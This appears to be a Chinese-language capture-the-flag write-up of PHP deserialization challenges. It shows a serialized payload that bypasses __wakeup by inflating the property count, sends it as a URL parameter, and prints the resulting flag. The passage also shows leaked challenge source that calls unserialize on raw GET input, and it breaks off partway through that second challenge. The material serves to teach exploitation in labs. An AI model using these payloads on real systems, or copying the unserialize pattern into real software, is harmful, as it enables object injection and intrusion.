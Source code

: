 __wakeup 经常用在反序列化操作中，例如重新建立数据库连接，或执行其它初始化操作。所以猜测被反序列化了

写一段代码执行

```assembly
<?php

class xctf
{
    public $flag = '111';

    public function __wakeup()
    {
        exit('bad requests');
    }
}

$ctf = new xctf();

echo(serialize($ctf));
```

运行结果

`O:4:"xctf":1:{s:4:"flag";s:3:"111";}`

如果直接传参给code会被\_\_wakeup()函数再次序列化，所以要绕过他。
利用\_\_wakeup()函数漏洞原理：当序列化字符串表示对象属性个数的值大于真实个数的属性时就会跳过\_\_wakeup()的执行。

把序列化字符串改为

`O:4:"xctf":2:{s:4:"flag";s:3:"111";}`

?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}

得到flag

cyberpeace{4514da5c7a176a598000c395cd2821d7}

### [极客大挑战 2019]PHP

主页提示：`因为每次猫猫都在我键盘上乱跳，所以我有一个良好的备份网站的习惯`

`不愧是我！！！`

扫描后台得到www.zip

flag.php

```assembly
<?php
$flag = 'Syc{dog_dog_dog_dog}';
?>
```

index.php

```assembly
<?php
include 'class.php';
$select = $_GET['select'];
$res=unserialize(@$select);
?>
```
